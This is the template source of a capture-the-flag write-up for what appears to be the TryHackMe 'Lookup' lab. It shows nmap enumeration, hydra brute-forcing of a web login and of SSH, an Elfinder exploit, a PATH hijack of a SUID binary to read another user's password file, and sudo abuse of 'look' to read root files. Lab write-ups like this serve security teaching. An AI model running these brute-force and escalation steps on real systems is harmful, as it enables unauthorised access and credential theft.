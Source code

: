 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.231.140", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 16:14 CET
Warning: 10.10.231.140 giving up on port because retransmission cap hit (2).
Nmap scan report for lookup.thm (10.10.231.140)
Host is up (0.082s latency).
Not shown: 62276 closed tcp ports (conn-refused), 3257 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 552.74 seconds
")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Going to <code class='bg-gray-300 rounded-md px-1'>http://10.10.231.140</code> redirects us to <code class='bg-gray-300 rounded-md px-1'>http://lookup.thm</code>, so we add that entry to our <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.")}}

{{text("We can now access the website, which displays a login form.")}}

{{image("../../static/writeups/lookup/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("I tried to scan for different directories and subdomains but didn't find anything. The source code also has nothing interesting.")}}

{{text("I proceeded with analysing the login form. I noticed something vulnerable. When I set username to <code class='bg-gray-300 rounded-md px-1'>admin</code> instead of getting back <code class='bg-gray-300 rounded-md px-1'>Wrong username or password.</code> I got <code class='bg-gray-300 rounded-md px-1'>Wrong password.</code>")}}

{{image("../../static/writeups/lookup/images/000002.jpg")}}

{{text("This means the the correct username is <code class='bg-gray-300 rounded-md px-1'>admin</code>")}}

{{text("Knowing the username, I began brute-forcing the login form.")}}

{{console("hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We find the password, which is <code class='bg-gray-300 rounded-md px-1'>password123</code>. Now we can log in.")}}

{{text("When I tried to log in with those credentials, I once again got back <code class='bg-gray-300 rounded-md px-1'>Wrong username or password.</code> which is weird.")}}

{{image("../../static/writeups/lookup/images/000003.jpg")}}

{{text("So it would seem that the username is incorrect after all? I once again ran <code class='bg-gray-300 rounded-md px-1'>hydra</code>, now bruteforcing the username.")}}

{{console("hydra -L /usr/share/wordlists/rockyou.txt -p password123 lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.
[STATUS] 5946.00 tries/min, 5946 tries in 00:01h, 14338453 to do in 40:12h, 64 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123")}}

{{text("We find the correct credentials, which are <code class='bg-gray-300 rounded-md px-1'>jose:password123</code>.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("We get redirected to <code class='bg-gray-300 rounded-md px-1'>http://files.lookup.thm</code> so we have to add this entry to the <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.")}}

{{text("We see an <code class='bg-gray-300 rounded-md px-1'>Elfinder</code> page which is a open-source file manager for web.")}}

{{image("../../static/writeups/lookup/images/000004.jpg")}}

{{text("I tried using credentials from the files, but none seemed to work.")}}

{{text("I found currently used version.")}}

{{image("../../static/writeups/lookup/images/000005.jpg")}}

{{text("I tried searching for any exploits for our version of <code class='bg-gray-300 rounded-md px-1'>Elfinder</code> and found this.")}}

{{image("../../static/writeups/lookup/images/000006.jpg")}}

{{text("After choosing the exploit, I set correct options and ran it.")}}

{{image("../../static/writeups/lookup/images/000007.jpg")}}

{{text("We already guessed that there is a user called <code class='bg-gray-300 rounded-md px-1'>think</code> from when we looked at the files on the site. In his home directory we find a file called <code class='bg-gray-300 rounded-md px-1'>.passwords</code> but we don't have permissions to read it.")}}

{{text("We should search for binaries with <code class='bg-gray-300 rounded-md px-1'>SUID</code> bit.")}}

{{console("find / -perm /4000 2>/dev/null", "...
/usr/sbin/pwm
...")}}

{{text("This binary seemed interesting, because I have not seen it before.")}}

{{image("../../static/writeups/lookup/images/000008.jpg")}}

{{text("It executed the <code class='bg-gray-300 rounded-md px-1'>id</code> command in order to read that user's <code class='bg-gray-300 rounded-md px-1'>.passwords</code> file from their directory.")}}

{{text("We can guess that there is no absolute path specified and we can run our own <code class='bg-gray-300 rounded-md px-1'>id</code> file.")}}

{{text("I create my own <code class='bg-gray-300 rounded-md px-1'>id</code> file in the <code class='bg-gray-300 rounded-md px-1'>tmp</code> directory that will echo user think <code class='bg-gray-300 rounded-md px-1'>id</code> command in order to trick the program to read that user's <code class='bg-gray-300 rounded-md px-1'>.passwords</code> file.")}}

{{image("../../static/writeups/lookup/images/000009.jpg")}}

{{text("Command works, and the program reads a file containing a list of potential passwords.")}}

{{text("I copied this file, saved it into a file and began brute-forcing the password.")}}

{{console("hydra -l think -P passwords.txt ssh://10.10.193.239", "...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.193.239:22/
[22][ssh] host: 10.10.193.239   login: think   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We succesfully brute-force the password, and now are able to log in via SSH.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we know the current user password, first thing I did is check our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look")}}

{{text("It seems we can run <code class='bg-gray-300 rounded-md px-1'>/usr/bin/look</code> as root. Let's try and find a way to privilage escalate using this.")}}

{{link("https://gtfobins.github.io/gtfobins/look/", "https://gtfobins.github.io/assets/logo.png", "look | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1'>/usr/bin/look '' 'FILE'</code> it should read that file.")}}

{{image("../../static/writeups/lookup/images/000010.jpg")}}

{{text("It was successful and we got the flag.")}}

{{script()}}